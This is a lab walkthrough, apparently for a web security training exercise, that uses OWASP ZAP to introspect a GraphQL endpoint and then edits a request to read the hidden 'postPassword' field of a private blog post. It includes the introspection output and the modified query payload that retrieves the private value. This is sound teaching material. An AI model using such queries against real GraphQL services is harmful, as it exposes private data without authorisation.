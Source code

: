 # Lab: Accessing private GraphQL posts [OWASP Zed Attack Proxy]

> NOTE: First things first, make sure you have a [GraphQL add-on installed and enabled on ZAP](https://www.zaproxy.org/blog/2020-08-28-introducing-the-graphql-add-on-for-zap/).

Access the blog via ZAP's browser and find the `POST /graphql/v1` request under the __History__ tab. Right-click the request, and select "Copy URLs".

Go to __Import__ > __Import a GraphQL Schema__ and paste the URL under "Endpoint URL" input. This will generate and launch an introspection query on your behalf to that endpoint. You will notice that as a result under __History__ panel, there's a new `POST /graphql/v1` request with `Source` set as `Manual`. The response of this request has all the information you need, specifically:

```
...
{
  "kind": "OBJECT",
  "name": "BlogPost",
  "fields": [
      ...
      {
        "name": "postPassword",
        "args": [],
        "type": {
          "kind": "SCALAR",
          "name": "String",
          "ofType": null
        },
        "isDeprecated": false,
        "deprecationReason": null
      }
      ...
  ]
}
```

This suggests, that a `BlogPost` type includes a `postPassword` field. 

Now in the browser visit any blog post by clicking "View post" on any one of them. Go back to __History__ panel in ZAP. Find a `POST /graphql/v1` request that comes right after `GET /post?postId=` request. Right-click the `POST` request and select "Open in Requester Tab".

Make chenages in the request body, so that the `id` value for the requested post is `3` and also add `postPassword` field to the request as `\n     postPassword` in the beginning, like this:

```graphql
{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n		postPassword\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":3}}
```

Click "Send" and check the response. Copy the `postPassword` value from the response, go back to the browser window and click "Submit solution" on top. Paste the copied value in the input to solve the lab. 
